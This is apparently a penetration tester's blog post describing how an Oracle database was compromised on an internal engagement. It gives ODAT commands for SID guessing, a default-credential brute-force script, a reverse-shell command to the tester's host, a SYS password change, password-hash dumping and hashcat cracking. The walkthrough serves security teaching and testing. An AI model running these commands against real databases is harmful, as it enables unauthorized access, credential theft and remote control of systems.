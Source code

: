 ```yaml
---
layout: post
title: "Hacking Oracle in 2021"
tags: oracle database 
---
```


I recently came across an Oracle database on an internal pen test and learned some new techniques which I thought I would share. This blog shows the process and path I used to compromise the database during my engagement. 

Once a host has been found that is running Oracle the first step was to try and discover any SIDs using [ODAT] [ODAT]. ODAT is an open source tool designed to attack Oracle Database servers.

`odat sidguesser -s <ip>`

![Odat SID Guesser]({{site.baseurl}}/assets/img/2021-11-26/odatSid.png)

Now that we have found a valid SID, lets try and find some valid credentials. The following brute force script [here] [oracleBrute] was used to get default credentials. Brute force can also be done via the metasploit module "oracle_login".

```bash
#!/bin/bash
INPUT=/tmp/oracle_defaults.csv
OLDIFS=$IFS
IFS=,
[ ! -f $INPUT ] && { echo "$INPUT file not found"; exit 99; }
while read comment number username password hash comment
do
 echo "string = $username:$password"
 sqlplus -L $username\/$password\@172.17.0.3:1521\/XE
done < $INPUT
IFS=$OLDIFS
```

It should be noted that not all default credentials are in the metasploit wordlist. A better list can be found [here] [SecListOracle]. In this case the default credentials CTXSYS:CTXSYS worked.

![Oracle Brute Force]({{site.baseurl}}/assets/img/2021-11-26/oracleBrute.png)

Now we have access to the database lets run the ODAT module 'all' which will run all modules to see if we can get command execution.  

`odat all -s <ip> -U CTXSYS -P CTXSYS -d XE`

![ODAT All]({{site.baseurl}}/assets/img/2021-11-26/odatAll.png)

From the output above we can see various options but the one which stands out is the JAVA library. This module can allow us to get code execution using 'java stored' procedure (I won't go into detail here as this attack vector has been covered many times before). We can now use ODAT to return a reverse shell by using this java module in ODAT. 

`odat java -s <target IP> -U CTXSYS -P CTXSYS -d XE --reverse-shell <local IP> <port>`


![ODAT]({{site.baseurl}}/assets/img/2021-11-26/odatJava.png)


From the reverse shell we can connect to the database as a sysdba and once connected we can grant our account sysdba privileges. This example shows a quick change to the SYS user password just for ease in the lab environment but this way is not recommended during a real engagement.

Connect to the database and change the password:

`/opt/oracle/product/18c/dbhomeXE/bin/sqlplus / as sysdba`

`ALTER USER SYS IDENTIFIED BY SYS;`


![SYSDBA]({{site.baseurl}}/assets/img/2021-11-26/sysdba.png)

Now we know the SYS password we can dump the database credentials with ODAT.

`odat passwordstealer -s <ip> --sysdba -U SYS -P SYS -d XE --get-passwords `

![ODAT Password Dump]({{site.baseurl}}/assets/img/2021-11-26/odatPasswordDump.png)

Export the passwords into a file but remove most of the values and just keep the T value to pass it into hashcat for cracking. 

`sed 's/.*://' oracle.hashes | tee oracle.hashcat`

![Oracle Hashes]({{site.baseurl}}/assets/img/2021-11-26/oracleHashes.png)

Crack the hashes from the ODAT dump. 

`hashcat -m 12300 oracle.hashcat wordlist.txt --force`

![Oracle Cracked]({{site.baseurl}}/assets/img/2021-11-26/oracleCracked.png)


### Links & Resources


tools


* <https://hashcat.net/wiki/doku.php?id=example_hashes>{:target="_blank"}
* <http://marcel.vandewaters.nl/oracle/security/password-hashes>{:target="_blank"}
* <https://javamana.com/2021/07/20210729124711510t.html>{:target="_blank"}
* <https://seanstuber.com/how-oracle-stores-passwords/>{:target="_blank"}



[ODAT]: https://github.com/quentinhardy/odat
[oracleBrute]: https://blog.carnal0wnage.com/2014/10/quick-and-dirty-oracle-brute-forcing.html
[SecListOracle]: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/oracle-betterdefaultpasslist.txt